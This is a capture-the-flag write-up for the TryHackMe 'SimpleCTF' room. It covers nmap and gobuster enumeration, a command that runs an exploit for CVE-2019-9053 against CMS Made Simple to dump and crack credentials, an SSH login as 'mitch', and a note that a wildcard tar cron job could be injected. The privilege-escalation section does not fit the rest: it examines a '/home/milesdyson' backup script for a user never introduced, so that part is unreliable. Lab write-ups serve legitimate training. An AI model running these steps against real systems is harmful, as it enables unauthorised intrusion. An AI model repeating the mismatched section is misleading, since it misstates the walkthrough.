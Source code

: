 # TryHackMe - SimpleCTF  
🔗 https://tryhackme.com/room/simplectf

## 🎯 Objective

The goal of this room is to enumerate services, exploit a vulnerable CMS to obtain credentials, gain access via SSH, and investigate possible privilege escalation vectors.

---

## 🖥️ Target Information

| Property     | Value                                 |
|--------------|----------------------------------------|
| IP Address   | 10.10.193.179                          |
| OS           | Linux Kernel 3.10–3.13 (detected)      |
| FTP Service  | vsftpd 3.0.3                           |
| Web Server   | Apache 2.4.18 (Ubuntu)                 |
| SSH Server   | OpenSSH 7.2p2 (Ubuntu), Port 2222      |

---

## 🔍 1. Enumeration

### 🔧 Nmap Scan

Command:
nmap -sV -O 10.10.193.179

- Results:
    - 21/tcp open  ftp     vsftpd 3.0.3
    - 80/tcp open  http    Apache httpd 2.4.18
    - 2222/tcp open ssh     OpenSSH 7.2p2 Ubuntu
- OS Fingerprint: Linux 3.10 - 3.13

---

### 🔍 Directory Enumeration with Gobuster

Command:
gobuster dir -u http://10.10.193.179 -w /usr/share/wordlists/dirb/common.txt -x php

- Discovered paths:
    - `/simple`
    - `/simple/admin`
    - `/simple/uploads`

💡 The `/simple/` path contains a CMS interface with login and file functionality.

---

## 🔎 2. Vulnerability Analysis

CMS: **CMS Made Simple 2.2.8**  
Vulnerability: **SQL Injection & Password Disclosure** (CVE-2019-9053)

Reference:
https://qiita.com/kaz_tak/items/81e19452a5c1fc5edc3e

Exploit:
```bash
python3 exploit.py -u http://10.10.193.179/simple -c -w /path/to/rockyou.txt -t 5
```

Result:
- Username: `mitch`
- Password (cracked): `secret`

---

## 💥 3. Exploitation

SSH Login:
```bash
ssh mitch@10.10.193.179 -p 2222
```

✅ Access obtained as user `mitch`.

---

## 🔓 4. Privilege Escalation

### 🔍 Crontab Investigation

Backup script found:
```
/home/milesdyson/backups/backup.sh
```

View contents:
```bash
cat /home/milesdyson/backups/backup.sh
```

Script:
```bash
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

💡 Scheduled task runs `tar` on web directory. Potential injection point if `/var/www/html` is writable.

---

## ✅ Summary

| Phase                | Status                  |
|---------------------|-------------------------|
| Enumeration          | ✅ Completed            |
| CMS Exploitation     | ✅ Password disclosed   |
| SSH Foothold         | ✅ Gained as mitch      |
| Privilege Escalation | 🕓 In Progress (cron)   |

---
